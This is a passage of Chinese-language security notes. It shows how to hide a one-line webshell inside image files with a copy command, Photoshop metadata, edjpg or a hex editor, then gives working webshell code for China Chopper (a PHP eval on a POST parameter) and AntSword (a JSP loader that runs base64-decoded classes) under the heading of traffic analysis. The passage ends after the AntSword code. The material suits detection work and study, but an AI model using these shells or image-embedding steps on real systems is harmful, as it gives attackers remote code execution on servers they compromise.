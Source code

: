 copy命令：

```
CMD命令：copy 1.jpg/b+1.php/a 2.jpg
```

PS软件：

```
PS打开图片，在文件—>文件简介里插入需要的木马代码，最后：文件—>保存【保存：覆盖原文件，也可以另存为其他格式】。
```

edjpg软件：

```
将图片直接拖到edjpg.exe上，在弹出窗口内输入一句话木马即可。
```

十六进制编辑器：

```
用010 Editor或winhex等十六进制编辑器打开图片，将一句话木马插入到右边最底层或最上层后保存。
```

## Webshell流量分析

### CKnife 菜刀

Webshell代码：

```php
# npc.php
<?php eval($_POST["npc"]);?>
```

流量特征：

- 明文传输。
- npc是php一句话木马的password。

![img](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202211091032518.png)

### Antsword 蚁剑

Webshell代码：

```jsp
# 4.jsp

<%!
class U extends ClassLoader{
  U(ClassLoader c){
    super(c);
  }
  public Class g(byte []b){
    return super.defineClass(b,0,b.length);
  }
}
%>
<%
String cls=request.getParameter("ant");
if(cls!=null){
  new U(this.getClass().getClassLoader()).g(new sun.misc.BASE64Decoder().decodeBuffer(cls)).newInstance().equals(pageContext);
}
%>
```
